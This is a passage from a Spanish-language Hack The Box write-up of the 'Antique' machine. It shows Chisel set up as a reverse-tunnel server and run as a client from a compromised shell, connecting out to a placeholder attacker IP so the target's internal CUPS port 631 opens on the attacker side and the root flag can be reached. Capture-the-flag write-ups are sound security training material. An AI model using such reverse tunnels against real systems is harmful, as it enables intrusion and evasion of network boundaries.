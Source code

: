 * Inicia **Chisel** como servidor en tu máquina:
```bash
./chisel_1.10.0_linux_amd64 server --reverse -p 8080
server: Reverse tunnelling enabled
```

* Por último, inicia **Chisel** como cliente, indicando el **puerto 631** por donde esta el servicio **CUPS** para que salga igual por nuestro **puerto 631**:
```bash
lp@antique:~/tmp$ ./chisel_client client TU_IP:8080 R:631:localhost:631
./chisel_client client Tu_IP:8080 R:631:localhost:631
client: Connecting to ws://Tu_IP:8080
client: Connected (Latency 68.705488ms)
...
```

* Entra en el navegador web y entra a: `http://localhost:631`:

<p align="center">
<img src="/assets/images/htb-writeup-antique/Captura1.png">
</p>

Con esto ya podremos ver la página de **CUPS** e igual la ruta donde se almacenan los errores, que en este punto, debería de tener almacenada la flag del root:

<p align="center">
<img src="/assets/images/htb-writeup-antique/Captura2.png">
</p>
